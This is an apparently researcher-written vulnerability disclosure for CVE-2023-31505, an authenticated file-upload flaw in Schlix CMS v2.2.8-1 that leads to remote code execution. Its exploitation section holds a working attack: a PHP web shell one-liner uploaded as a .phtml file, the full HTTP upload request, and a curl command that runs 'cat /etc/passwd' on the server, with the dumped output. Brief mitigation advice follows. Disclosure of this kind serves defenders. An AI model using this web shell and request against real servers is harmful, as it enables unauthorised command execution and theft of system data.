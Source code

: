 ```yaml
---
title: Schlix CMS v2.2.8-1 - Remote Code Execution (CVE-2023-31505)
tags: [CVE, 0day, RCE, schlix, CMS]
style: border
color: warning
description: ""
---
```


## Introduction

- **CVE-ID:** [CVE-2023-31505](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-31505)
- **Vulnerability Type:** Arbitrary File Upload Remote following Code Execution (Authenticated)
- **Affected Product Code Base:** Schlix CMS v2.2.8-1
- **Affected Component:** Affected source code 'core.mediamanager' file
- **Attack Type:** Remote 
- **Impact:** Arbitrary file uploads and remote code execution to compromise the server.
- **Attack Vectors:** To exploit the vulnerability, it is required to be authenticated with a user with access to the File Media Manager.

## Description

An authorized user can upload a file with *.phtml* extension to a path of his choice and control the content at will. This causes remote code execution (RCE) on the server.

## Exploitation

Login to admin panel with true credentials and go to "Tools -> Media Manager" menu from left side.

![](../assets/img/cve-2023-31505/1.png)

Click the "Upload File" and upload a file in "images" folder and catch the request with Burp.

![](../assets/img/cve-2023-31505/2.png)

But we can see that it does not accept this type of files.

![](../assets/img/cve-2023-31505/3.png)

But on the contrary, the application does accept "*.phtml*" files, so we uploaded a proof of concept:

![](../assets/img/cve-2023-31505/4.png)

In the following image, it is evident that the file is hosted and it is possible to execute PHP commands:

![](../assets/img/cve-2023-31505/6.png)

Create a new file called "*test.phtml*" and add the code "*<? passthru($_REQUEST['c']); ?>*" and send the request to the server.

#### HTTP Request
```
POST /SCHLIX_CMS/admin/app/core.mediamanager?&ajax=1&action=upload HTTP/1.1
Host: <HOST>
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/111.0
Accept: */*
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
X-Schlix-Ajax: 1
Content-Type: multipart/form-data; boundary=---------------------------3094465041174962963743050336
Content-Length: 953
Origin: https://<HOST>
Connection: close
Referer: https://<HOST>/SCHLIX_CMS/admin/app/core.mediamanager
Cookie: users_currentCategory=2; core-mediamanager_currentCategory=%2Fmedia%2Fimages; scx56bdae0553f4c0fbf7ca9c95614b5989=ad3705ecc421a565a3f11ae837e38fc8
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

-----------------------------3094465041174962963743050336
Content-Disposition: form-data; name="_csrftoken"

b45ef3afd5319dbdd559121de72ca19e6effa322
-----------------------------3094465041174962963743050336
Content-Disposition: form-data; name="uploadstartpath"

/media/images
-----------------------------3094465041174962963743050336

Content-Disposition: form-data; name="filedata[]"; filename="test.phtml"
Content-Type: application/x-php

// Proof of concept
<? passthru($_REQUEST['c']); ?>
-----------------------------3094465041174962963743050336
Content-Disposition: form-data; name="MAX_FILE_SIZE"

8388608
-----------------------------3094465041174962963743050336

Content-Disposition: form-data; name="filedata__total_file_size"

0
-----------------------------3094465041174962963743050336
Content-Disposition: form-data; name="filedata__max_file_count"

20
-----------------------------3094465041174962963743050336--
```

![](../assets/img/cve-2023-31505/4.png)

Go to "*https://HOST/SCHLIX_CMS/web/main/media/images/test.phtml?c=/etc/passwd*" or execute with **curl**.

#### Executing commands with curl

```bash
> curl -s -X POST https://<HOST>/SCHLIX_CMS/web/main/media/images/test.phtml -d "c=cat /etc/passwd"
// Proof of concept
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
systemd-bus-proxy:x:999:998:systemd Bus Proxy:/:/sbin/nologin
systemd-network:x:192:192:systemd Network Management:/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
polkitd:x:998:997:User for polkitd:/:/sbin/nologin
tss:x:59:59:Account used by the trousers package to sandbox the tcsd daemon:/dev/null:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
postfix:x:89:89::/var/spool/postfix:/sbin/nologin
chrony:x:997:995::/var/lib/chrony:/sbin/nologin
soft:x:1000:1000::/home/soft:/sbin/nologin
saslauth:x:996:76:Saslauthd user:/run/saslauthd:/sbin/nologin
mailnull:x:47:47::/var/spool/mqueue:/sbin/nologin
smmsp:x:51:51::/var/spool/mqueue:/sbin/nologin
emps:x:995:1001::/home/emps:/bin/bash
named:x:25:25:Named:/var/named:/sbin/nologin
exim:x:93:93::/var/spool/exim:/sbin/nologin
vmail:x:5000:5000::/var/local/vmail:/bin/bash
mysql:x:27:27:MySQL Server:/var/lib/mysql:/bin/false
*******:x:993:993::/home/*******:/bin/bash
apache:x:992:991::/home/apache:/sbin/nologin
```

#### Result of the evidence
![](../assets/img/cve-2023-31505/7.png)

## Mitigation
- Restrict invalid file types, allowing only image files (e.g. Jpg, png, etc.).
- Perform file integrity check, validating that it is an expected file type and not a malicious one.
- Store these files outside the application (e.g. S3 AWS Buckets), preventing the attacker from getting relevant information or compromising the host server.

## Acknowledgments
We would like to thank [**MITRE CVE**](https://cve.mitre.org/) for their attention and speed in the procedures with the CVE identifier.

## References
- [Mitre - CVE-2023-31505](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-31505)
- [OWASP - Unrestricted File Upload](https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload)